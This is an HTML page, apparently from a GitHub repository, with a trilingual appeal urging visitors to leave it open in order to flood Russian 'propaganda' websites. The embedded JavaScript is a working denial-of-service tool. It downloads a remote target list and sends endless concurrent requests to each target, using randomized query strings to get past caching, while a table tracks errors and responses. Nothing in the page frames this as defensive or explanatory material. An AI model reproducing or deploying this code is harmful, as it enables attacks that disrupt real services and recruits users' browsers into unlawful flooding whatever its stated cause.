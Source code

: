 | English version | Русская версия | Українська версія |
| --------------- | -------------- | ----------------- |
| The "official" news in the Russian Federation is mostly fake and we believe it is better to shut them down and let people switch to trustful news. Please, just open this page and let it be open on your devices. It will flood the Russian propaganda websites and pose a huge load on their infrastructure. Your browser will be slow. It's ok, don't worry and keep it run. A small contribution from each of us will save Ukraine 🙏 | «Официальные» новости в РФ полны пропаганды и транслируют лживую информацию о событиях на Украине. Мы считаем, что лучше их закрыть и позволить людям переключиться на достоверные новости. Пожалуйста, откройте эту страницу на ваших устройствах. Это зальёт российские пропагандистские сайты запросами и создаст огромную нагрузку на их инфраструктуру. Ваш браузер будет работать медленно. Все в порядке, не волнуйтесь и держите его открытым. Небольшой вклад каждого из нас спасет Украину 🙏 | «Офіційні» новини в РФ сповнені пропаганди та транслюють брехливу інформацію про події в Україні. Ми вважаємо, що краще їх закрити та дозволити людям переключитися на достовірні новини. Будь ласка, відкрийте цю сторінку на вашому пристрої. Це закидає російські пропагандистські сайти запитами та створить величезне навантаження на їхню інфраструктуру. Ваш браузер працюватиме повільно. Все гаразд, не хвилюйтеся та тримайте його відкритим. Невеликий внесок кожного з нас врятує Україну 🙏 |

<body>
    <div id="stats"></div>
    <script>
        const ERROR_SYMBOL = "❌";
        const SUCCESS_SYMBOL = "✔️"
        const NO_RESPONSE_SYMBOL = "☠️";
        let targetsURL = 'https://raw.githubusercontent.com/anondevua/anondevua.github.io/main/ddos/targets.txt';
        const updateInterval = 500;
        const fetchTimeout = 1000;
        const CONCURRENCY_LIMIT = 1000;
        var targetStats = {}
        var statsEl = document.getElementById('stats');
        function printStats() {
            for (var [target, stats] of Object.entries(targetStats)) {
                stats.last_responses = stats.last_responses.slice(-10)
            }
            var table_body = Object.entries(targetStats).map(
                ([target, { number_of_requests, number_of_errored_responses, last_responses }]) => 
                '<tr style="background-color:' + 
                    (last_responses.includes(ERROR_SYMBOL) ? '#FF4500' : 
                        last_responses.includes(SUCCESS_SYMBOL) ? '#3CB371' : '#FFEFD5') + 
                '"><td>' + target + 
                '</td><td>' + number_of_requests + 
                '</td><td>' + number_of_errored_responses + 
                '</td><td>' + last_responses.join('') + 
                '</td></tr>'
            ).join('')
            statsEl.innerHTML = '<table width="100%"><thead><tr><th>URL</th><th>Number of Requests</th><th>Number of Errors</th><th>Responses</th></tr></thead><tbody>' + table_body + '</tbody></table>'
        }
        setInterval(printStats, updateInterval);
        var queue = []
        async function fetchWithTimeout(resource, options) {
            const controller = new AbortController();
            const id = setTimeout(() => controller.abort(), options.timeout);
            return fetch(resource, {
                method: 'GET',
                mode: 'no-cors',
                signal: controller.signal
            }).then((response) => {
                clearTimeout(id);
                return response;
            }).catch((error) => {
                clearTimeout(id);
                throw error;
            });
        }
        async function flood(target) {
            for (var i = 0; ; ++i) {
                if (queue.length > CONCURRENCY_LIMIT) {
                    await queue.shift()
                }
                rand = i % 3 === 0 ? '' : ('?' + Math.random() * 1000)
                queue.push(
                    fetchWithTimeout(target + rand, { timeout: fetchTimeout })
                        .catch((error) => {
                            if (error.code === 20 /* ABORT */) {
                                return;
                            }
                            targetStats[target].number_of_errored_responses++;
                            targetStats[target].last_responses.push(ERROR_SYMBOL);
                        })
                        .then((response) => {
                            if (response) {
                                if (!response.ok) {
                                    targetStats[target].number_of_errored_responses++;
                                    targetStats[target].last_responses.push(NO_RESPONSE_SYMBOL);
                                }
                            }
                            targetStats[target].last_responses.push(SUCCESS_SYMBOL);
                            targetStats[target].number_of_requests++;
                        })
                )
            }
        }
        fetch(targetsURL).then((r) => {
            r.text().then((d) => {
                let targets = d.split('\n');
                targets.forEach((target) => {
                    targetStats[target] = {
                        number_of_requests: 0,
                        number_of_errored_responses: 0,
                        last_responses: []
                    }
                })
                targets.map(flood)
            })
        })
    </script>
</body>